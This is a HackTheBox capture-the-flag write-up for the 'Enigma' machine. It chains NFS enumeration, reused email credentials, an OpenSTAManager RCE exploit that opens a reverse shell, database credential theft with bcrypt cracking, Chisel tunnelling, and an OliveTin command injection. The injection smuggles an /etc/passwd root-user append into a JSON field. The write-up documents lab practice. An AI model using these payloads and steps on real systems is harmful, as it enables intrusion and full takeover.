





<!--more-->

## Introduction

Welcome to my writeup for **Enigma**, a thrilling machine on HackTheBox. This writeup is for educational purposes only. In this walkthrough, we will cover the complete exploitation chain — starting from an open NFS share and email enumeration to gain initial access via an OpenSTAManager RCE (`CVE-2026-38751`). From there, we’ll perform local enumeration, crack database password hashes to pivot users, set up port forwarding with Chisel, and finally leverage a command injection vulnerability in OliveTin (`CVE-2026-27626`) to escalate privileges to root. Let’s dive in!

To begin the assessment, I started with a Nmap scan to identify open ports and services running on the target machine:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
993/tcp   open  imaps
995/tcp   open  pop3s
2049/tcp  open  nfs
43549/tcp open  unknown
43787/tcp open  unknown
53303/tcp open  unknown
54343/tcp open  unknown
57007/tcp open  unknown
```
We notice that port 111 (NFS) is open from the Nmap scan.
```
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      37057/tcp   mountd
|   100005  1,2,3      38991/udp   mountd
|   100005  1,2,3      41651/tcp6  mountd
|   100005  1,2,3      42376/udp6  mountd
|   100021  1,3,4      32898/udp   nlockmgr
|   100021  1,3,4      35958/udp6  nlockmgr
|   100021  1,3,4      39815/tcp6  nlockmgr
|   100021  1,3,4      43667/tcp   nlockmgr
|   100024  1          41894/udp   status
|   100024  1          42881/tcp6  status
|   100024  1          45167/udp6  status
|   100024  1          49327/udp   status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
```
After identifying that port 111 is open, I checked for shared directories using showmount.
```bash
showmount -e <TARGET_IP>
```

The output revealed an exported directory: **/srv/nfs/onboardin**g. To inspect the contents of this share, I created a local directory and mounted the remote NFS share to my machine:
```bash
mkdir nfs
sudo mount -t nfs <TARGET_IP>:/srv/nfs/onboarding nfs -o nolock
```
Inside the mounted NFS directory, I explored the contents and found a PDF file containing credentials.


After reviewing the credentials found in the PDF, I used them to access the web application or service hosted on the target.

Since the target uses custom domains, I added both enigma.htb and mail001.enigma.htb to my /etc/hosts file:

```bash
echo "TARGET_IP enigma.htb mail001.enigma.htb" | sudo tee -a /etc/hosts
```

Using the credentials found in the PDF, I logged in as **kevin** at mail001.enigma.htb and found the following email:



From this email, I also discovered the existence of another user, **sarah**.

Next, I tested Kevin's password against the newly discovered sarah user on ***mail001.enigma.htb***, which resulted in a successful login And from Sarah's mailbox, we obtained new information:



From the new email, I discovered a new domain. I added it to my /etc/hosts file to resolve it correctly:
```bash
echo "TARGET_IP support_001.enigma.htb" | sudo tee -a /etc/hosts
```
Using the acquired credentials (**admin : Ne3s4rtars78s**), I logged into support_001.enigma.htb and found an OpenSTAManager 2.9.8 instance. 



After further enumeration, I discovered that the application is running OpenSTAManager version 2.9.8. I then searched for existing exploits and found the following reference:
[CVE-2026-38751](https://github.com/b0ySie7e/OpenSTAManager-RCE-Exploit-CVE-2026-38751)

```bash
git clone https://github.com/b0ySie7e/OpenSTAManager-RCE-Exploit-CVE-2026-38751]
cd OpenSTAManager-RCE-Exploit-CVE-2026-38751

./openstamanager-rce-exploit -url http://support_001.enigma.htb -U admin -P Ne3s4rtars78s -lhost <IP> -lport 4444
```

By running the exploit, I successfully achieved initial access on the target machine as the www-data user


### Lateral Movement (www-data -> haris)
To find other users on the system, I enumerated the configuration and log files, which led me to the database credentials stored in this file:

```bash
cat /var/www/html/openstamanager/config.inc.php
```
```
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
```

Using the credentials I extracted from the configuration file, I successfully logged into the MySQL database

```bash
mysql -h localhost -u brollin -p
```
After authenticating with the password **Fri3nds@9099**, I gained access to the database.

```SQL
show databases;
use openstamanager;
select * from zz_users;
```
By running queries inside the database, I retrieved the password hashes for the haris and admin users

```Plaintext
admin : $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu
haris : $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC
```
After identifying the hash format, I cracked the hash for the harris user to obtain the plaintext password, while the admin hash could not be cracked:

```bash
echo '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC' > hash.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

Result -> haris : **bestfriends**

Using the cracked plaintext password, I switched to the **harris** user with the su command and successfully obtained the user flag
```Bash
su haris
```
### Privilege Escalation (haris -> root)
While enumerating the system as the harris user, I discovered that a service called **Olivetin** is running on port 1337
```bash
 ss -tulnp | grep 1337 
 ```

To access the service running on port 1337 locally, I transferred Chisel to the target machine and set up port forwarding
```bash
./chisel server -p 8000 - reverse #on your host
./chisel client <YOUR_IP>:8000 R:1337:127.0.0.1:1337 #on TARGET host
```

By navigating to 127.0.0.1:1337 on my host machine, I saw that OliVetin version 3000.10.0 was running. After searching for known vulnerabilities related to this version, I found  [CVE-2026-27626](https://github.com/advisories/GHSA-49gm-hh7w-wfvf)

## Exploiting CVE-2026–27626:
To leverage the vulnerability and gain root access, I decided to create a new user with root privileges (UID 0) directly on the system.

Step 1: Generate a Password Hash
First, I generated an MD5-crypt password hash for a new user. I chose the plaintext password **12345** and used xyz as the salt value with openssl:
```bash 
openssl passwd -1 -salt xyz 12345 
```

This command generated the following hash:
``$1$xyz$BsyKyb1qET4YoYqZL2pe./``

Step 2: Create Payload
Next, I appended a new user entry named hacker directly into the /etc/passwd file. By setting the User ID (UID) and Group ID (GID) to 0, this user inherits full administrative (root) privileges:

```bash  
echo 'hacker:$1$xyz$BsyKyb1qET4YoYqZL2pe./:0:0:root:/root:/bin/bash' >> /etc/passwd 
```

To exploit the input field, I intercepted the request and injected the command inside the **db_pass** parameter using the following JSON structure
```json
{
  "bindingId": "backup_database",
  "arguments": [
    {
      "name": "db_user",
      "value": "backup_svc"
    },
    {
      "name": "db_pass",
      "value": "'; echo 'hacker:$1$xyz$BsyKyb1qET4YoYqZL2pe./:0:0:root:/root:/bin/bash' >> /etc/passwd ; echo '"
    },
    {
      "name": "db_name",
      "value": "production"
    }
  ]
}
```
# Burp Suite Request Overview



>Alternative Approach (Optional): If you'd like to experiment with different exploitation payloads, you can modify the command >injected into the db_pass parameter. For instance, instead of adding a new root user to /etc/passwd, you could assign the SUID >bit to /bin/bash or use any other preferred privilege escalation payload. This step is entirely optional and up to your >preference.

### Final Step:
After sending this request, the system executed the command, successfully adding the hacker account with root privileges (UID 0). I then switched to the new user and obtained root access:

```bash   
su hacker 
```

``Password: 12345``

